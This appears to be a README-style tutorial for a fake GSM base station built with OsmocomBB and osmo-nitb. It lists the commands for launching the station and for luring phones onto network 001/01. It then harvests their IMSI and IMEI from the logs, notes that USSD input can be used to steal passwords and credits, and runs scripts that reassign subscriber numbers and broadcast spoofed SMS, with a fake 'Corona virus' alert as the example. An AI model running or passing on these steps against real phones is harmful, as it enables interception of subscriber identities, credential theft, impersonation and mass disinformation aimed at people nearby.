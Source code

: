 Running transceiver
```
bash trx.sh
```
Click button power of motorola phone  
Tape ctrl+shift+T  
Launching osmo-nitb  with debug mode --debug=DRLL:DCC:DMM:DRR:DRSL:DNM
Database at : /usr/src/CalypsoBTS/hlr.sqlite3  
```
osmo-nitb --yes-i-really-want-to-run-prehistoric-software -c /usr/src/CalypsoBTS/openbsc.cfg -l /usr/src/CalypsoBTS/hlr.sqlite3 -P -C --debug=DRLL:DCC:DMM:DRR:DRSL:DNM
```
Launching osmo-bts  with debug mode option : --debug DRSL:DOML:DLAPDM
```
osmo-bts-trx -c /usr/src/CalypsoBTS/osmo-bts-trx-calypso.cfg --debug DRSL:DOML:DLAPDM -r 99
```

Have a look on the terminal at the command : /usr/local/bin/osmo-nitb --yes-i-really-want-to-run-prehistoric-software -s -C -c /etc/osmocom2/osmo-nitb.cfg -l /var/lib/osmocom/hlr.sqlite3  --debug=DRLL:DCC:DMM:DRR:DRSL:DNM  


  
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Have a look on log for capturing IMSI and IMEI  

  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
Have a look on the log about USSD: Own number requested  

  
Tape USSD `*100*123#`
Have a look on log of USSB : Unhandled USSD  (possible to steal password and credits)
  

ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof1
```
```
bash finding_imsi_extenstion.sh
```
You could find imsi and extension  
let's see for example imsi as 646040222463674 and extension as 126
```
bash set_imsi_extension.sh 646040222463674 0341220590
```
Verify by if the association is correct
let's see for example imsi as 646040222463674 and extension as 0341220590
```
bash finding_imsi_extenstion.sh
```
```
python2 sending_sms_spoof_byextension.py
```
Sending for all extensions in osmo-bts
```
python2 sending_sms_broadcast.py 
```
log should be :  subscriber extension 0341220590 sms sender extension 0341220590 send ALERT Corona virus  
